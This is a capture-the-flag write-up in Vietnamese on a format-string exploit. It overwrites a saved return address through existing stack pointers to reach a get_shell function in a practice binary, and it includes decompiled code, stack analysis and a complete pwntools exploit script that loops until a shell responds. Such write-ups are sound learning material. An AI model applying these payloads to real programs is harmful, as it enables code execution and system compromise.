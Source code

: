 # Format String - Dùng con trỏ stack có sẵn để thay đổi dữ liệu

*Khi bộ nhớ không còn ở trên stack, ta không thể đưa các địa chỉ cần ghi lên stack một cách dễ dàng được. Tuy nhiên, với các con trỏ stack có sẵn trên stack, ta có thể ghi thêm dữ liệu lên đó để có thể sử dụng và tạo thành một chuỗi format string ghi đè lên nhau. Việc đó cần phải kết hợp giữa dạng full form và short form của format string để đảm bảo dữ liệu được ghi đè chính xác*

**ida:**

```c

unsigned __int64 run()
{
  int v1; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts("Guessing game!");
  puts("1. Play");
  puts("2. Exit");
  printf("> ");
  __isoc99_scanf("%u", &v1);
  getchar();
  if ( v1 == 1 )
  {
    play();
  }
  else if ( v1 == 2 )
  {
    exit(0);
  }
  return __readfsqword(0x28u) ^ v2;
}


unsigned __int64 play()
{
  unsigned int v1; // [rsp+8h] [rbp-18h] BYREF
  unsigned int v2; // [rsp+Ch] [rbp-14h]
  char *s; // [rsp+10h] [rbp-10h]
  unsigned __int64 v4; // [rsp+18h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  s = (char *)malloc(0x40uLL);
  printf("Your name: ");
  fgets(s, 64, stdin);
  printf("Welcome ");
  printf(s);
  v2 = rand();
  printf("You guess: ");
  __isoc99_scanf("%u", &v1);
  getchar();
  if ( v2 <= v1 )
  {
    if ( v2 >= v1 )
      puts("Congratulation, you win!");
    else
      puts("Too large!");
  }
  else
  {
    puts("Too small!");
  }
  return __readfsqword(0x28u) ^ v4;
}

int get_shell()
{
  return system("/bin/sh");
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  init(argc, argv, envp);
  run();
  return 0;
}


```

**tại hàm play ta thấy có lỗi fmt, hàm get_shell có system("/bin/sh") nên ta sẽ tập trung khai thác vào đây**

checks:

![image](https://github.com/gookoosss/CTF/assets/128712571/7b1b832f-2d21-44c8-934a-f42696f72ce2)


địa chỉ tĩnh rồi nên ta ko cần leak địa chỉ exe

tại hàm play ta thấy **s = (char *)malloc(0x40uLL)**; mà ta nhập vào biến s , chứng tỏ giá trị ta nhập vào sẽ được gán vào địa chỉ heap chứ ko phải stack, h ta debug để xem thử:

![image](https://github.com/gookoosss/CTF/assets/128712571/7be3e324-6283-4f10-8435-1e2cb672fd28)


ta nhập bao nhiêu đi chăng nữa cũng ko ảnh hưởng đến stack, đồng nghĩa với việc ret2win và ret2libc là ko thể

**bây giờ ta tel rồi cùng phân tích stack:**

![image](https://github.com/gookoosss/CTF/assets/128712571/bff024e2-79fb-480b-9ac7-7446daf4bb9e)


- **0x007fffffffe0b8** là rip của hàm main
- **0x007fffffffe0a8** là rip của hàm run 
- **0x007fffffffe088** là rip của hàm play

do dữ liệu ta nhập vào nằm ở địa chỉ heap nên ta ko thể thay đổi rip bằng cách tràn biến , nên ta chỉ có thể thay đổi rip bằng cách sử dụng lỗi fmtstr để thay đổi địa chỉ trỏ đến của rip

### ý tưởng

- ta để ý rbp của play 0x007fffffffe0a0 đang trỏ đến 0x007fffffffe0b0, ta có thể thay đổi thành địa chỉ stack của rip 
- sau khi ta làm xong bước trên thì stack 0x007fffffffe0a0 ở dưới cũng thay đổi theo luôn , lúc này rip đang trỏ đến hàm run, ta lại lợi dụng lỗi fmtstr nữa để thay hàm run thành get_shell
- địa chỉ stack sẽ thay đổi sau mỗi lần chạy , nên để cố định ta sẽ dùng thêm **NOASLR** 

``` python3 test.py DEBUG NOASLR ```

h ta chạy thử như này xem sao:

```python 

p.sendlineafter(b'> ', b'1')
# payload = b'%c'*8
payload = f'%{0xe0e8}c%10$hn'.encode()
payload += f'%{((exe.sym["get_shell"] + 5 ) & 0xffff) - 0xc8}c%14$hn'.encode()

p.sendlineafter(b'name: ', payload)
p.sendlineafter(b'guess: ', b'1')

```

hmm ko ra rồi, vậy chỉ có lý do là khi ta fmt thì ta đã dùng **2 lần short from** , nên khi fmt thì nó sẽ làm cả 2 cái cùng 1 lúc, vì vậy ta cần kết hợp giữ short form và full form vì fmt sẽ **ưu tiên full form trước, short form sau**

**script:**

```python3

from pwn import *


while True:
    p = process('./fmtstr9')
    exe = ELF('./fmtstr9')

    # gdb.attach(p, gdbscript = '''
    # b*play+111
    # c
    # ''' 
    # )

    # input()

    p.sendlineafter(b'> ', b'1')

    payload = b'%c'*8
    payload += f'%{0xc8 - 8}c%hhn'.encode()
    payload += f'%{((exe.sym["get_shell"] + 5 ) & 0xffff) - 0xc8}c%14$hn'.encode()

    p.sendlineafter(b'name: ', payload)
    p.sendlineafter(b'guess: ', b'1')

    try:
        p.sendline(b'echo ABCDABCD')
        p.recvuntil(b'ABCDABCD')
        break
    except:
        try:
            p.close()
        except:
            pass

p.interactive() 

```


